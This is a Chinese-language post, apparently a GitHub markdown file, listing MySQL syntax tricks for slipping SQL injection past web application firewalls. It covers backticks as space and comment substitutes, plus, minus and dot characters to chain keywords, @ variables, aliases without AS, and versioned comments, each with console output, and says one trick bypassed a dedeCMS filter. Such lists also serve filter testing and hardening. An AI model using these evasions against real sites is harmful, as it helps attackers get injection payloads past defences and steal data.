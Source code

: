 # waf 绕过的技巧

研究过国内外的waf。分享一些 奇淫绝技。

一些大家都了解的技巧如：/*!*/,SELECT[0x09,0x0A-0x0D,0x20,0xA0]xx FROM 不再重造轮子。

Mysql

tips1: 神奇的 `  (格式输出表的那个控制符)
---------------------------

过空格和一些正则。

```
mysql> select`version`() 
    -> ;  
+----------------------+  
| `version`()          |  
+----------------------+  
| 5.1.50-community-log |  
+----------------------+  
1 row in set (0.00 sec)

```

一个更好玩的技巧，这个`控制符可以当注释符用（限定条件）。

```
mysql> select id from qs_admins where id=1;`dfff and comment it; 
+----+  
| id |  
+----+  
| 1  |  
+----+  
1 row in set (0.00 sec)

```

usage : where  id ='0'`'xxxxcomment on.

tips2:神奇的- + .
--------------

```
mysql> select id from qs_admins;  
+----+  
| id | 
+----+  
| 1  |  
+----+  
1 row in set (0.00 sec)

mysql> select+id-1+1.from qs_admins;  
+----------+  
| +id-1+1. |  
+----------+  
| 1        |  
+----------+  
1 row in set (0.00 sec)

mysql> select-id-1+3.from qs_admins;  
+----------+  
| -id-1+3. |  
+----------+  
| 1        |  
+----------+  
1 row in set (0.00 sec)

```

（有些人不是一直在说关键字怎么过？过滤一个from ...    就是这样连起来过）

tips3: @
--------

```
mysql> select@^1.from qs_admins;  
+------|+  
| @^1. |  
+------|+  
| NULL |  
+------|+

```

这个是bypass  曾经dedeCMS filter .

或者这样也是ok.

tips4：mysql function() as xxx  也可以不用as 和空格
------------------------------------------

```
mysql> select-count(id)test from qs_admins;  
+------|+  
| test |  
+------|+  
| -1   |  
+------|+  
1 row in set (0.00 sec)

```

tips5:/*![>5000]*/ 新构造  版本号（这个可能有些过时了。）
---------------------------------------

```
mysql> /\*!40000select\*/ id from qs_admins;  
+----+  
| id |  
+----+  
|  1 |  
+----+  
1 row in set (0.00 sec)

```

先分享这么多，哈。